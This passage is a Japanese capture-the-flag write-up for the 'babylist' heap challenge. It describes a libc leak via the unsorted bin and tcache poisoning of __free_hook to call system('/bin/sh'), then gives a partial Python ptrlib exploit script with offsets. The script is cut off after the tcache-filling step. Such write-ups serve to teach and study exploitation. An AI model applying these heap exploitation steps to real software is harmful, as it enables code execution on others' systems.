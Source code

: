 さて、tcacheが有効なので割と巨大なチャンクを作らないとunsorted binからlibc leakできませんが、tcacheを使い尽くせば0x78より大きいサイズで取得できます。
libc leakができたらあとはTCache Poisoningで`__free_hook`を書き換えます。
残念ながらone gadgetが動かなかったので`/bin/sh`を使いました。
最後に作った領域にaddするとfreeされるのでリストの最初の方を文字列として認識してsystem関数が起動します。

```python
from ptrlib import *
import re
import time

def create(name):
    sock.recvuntil("> ")
    sock.sendline("1")
    sock.sendline(name)

def add(index, value):
    sock.recvuntil("> ")
    sock.sendline("2")
    sock.sendline(str(index))
    sock.sendline(str(value))

def view(index, pos):
    sock.recvuntil("> ")
    sock.sendline("3")
    sock.sendline(str(index))
    sock.recvuntil("into list:\n")
    sock.sendline(str(pos))
    line = sock.recvline()
    r = re.findall(b"(.+)\[(.+)\] = (.+)", line)
    w = int(r[0][2])
    if w < 0:
        w = (0xffffffff ^ (- w - 1))
    return r[0][0], int(r[0][1]), w

def dup(index, name):
    sock.recvuntil("> ")
    sock.sendline("4")
    sock.sendline(str(index))
    sock.sendline(name)

def remove(index):
    sock.recvuntil("> ")
    sock.sendline("5")
    sock.sendline(str(index))

libc = ELF("./libc-2.27.so")
sock = Process("./babylist")#Socket("localhost", 4001)
#sock = Socket("challenges3.fbctf.com", 1343)
main_arena = 0x3ebc40 + 0x60
one_gadget = 0x10a38c

create("0") # 0
for i in range(0x50 // 4):
    add(0, 0x1111)
dup(0, "1") # 1
for i in range(0x50 // 4):
    add(1, 0x2222)
create("libc leak") # 2
remove(1)

# fill up tcache for 0x21
for i in range(8):
    create(str(i)) # 3-9
remove(1)
```